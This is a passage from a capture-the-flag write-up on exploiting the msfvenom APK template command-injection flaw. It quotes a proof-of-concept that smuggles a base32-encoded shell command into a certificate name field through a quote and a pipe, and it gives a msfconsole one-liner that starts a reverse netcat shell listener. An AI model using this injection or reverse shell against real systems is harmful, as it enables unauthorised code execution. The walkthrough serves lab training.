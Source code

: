 >If a crafted APK file has a signature with an "Owner" field containing:  
A single quote (to escape the single-quoted string)  
Followed by shell metacharacters  
When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

So essentially if we add in a single quote, it will break the underlying command similar to a SQL injection. Thankfully, Justin's advisory has a PoC that we can use to help speed up our vulnerability analysis (also useful for the OSCP seekers out there). We also need shell metacharacters following said single quote. There's a small bit to go through, but we'll analyze the code section that breaks us out into the OS first:

```python
# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"
```

Looking in there we can see the single quote and shell metacharacter (pipe in this case) followed by our OS commands being passed into base32 encoding. Now that we know _how_ it works we can just jump back to `msfconsole` and get our initial shell. Begin by finding the module (it should be `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`) and set the options to your current setup. In my environment it looks like this:

![Setting options for our Metasploit console payload.](/assets/images/scriptkiddie/msfconsole_generate_payload.png)

Note that we're not getting a listener automatically set up for us - we'll do that in a second. First, make sure to find/copy your new `msf.apk` wherever you want it. Then launch a listener with this: `msfconsole -x "use multi/handler; set payload cmd/unix/reverse_netcat; set lhost tun0; set lport 9001; run"`. For a quick primer, the `-x` option allows us to run the commands automatically as it opens the program (this can [also be performed with Metasploit resource scripts](https://docs.rapid7.com/metasploit/resource-scripts/)). Once that's run, you'll see that the listener is open and ready - awesome. Finally, upload our `msf.apk` template up to the site's `msfvenom` Android template option and set the other options - I used `127.0.0.1` as the listener address _on the ScriptKiddie site_ (important to differentiate, since our payload _ALSO_ has a listener address) and submitted the form. If everything goes according to plan, you should see this on your listener:

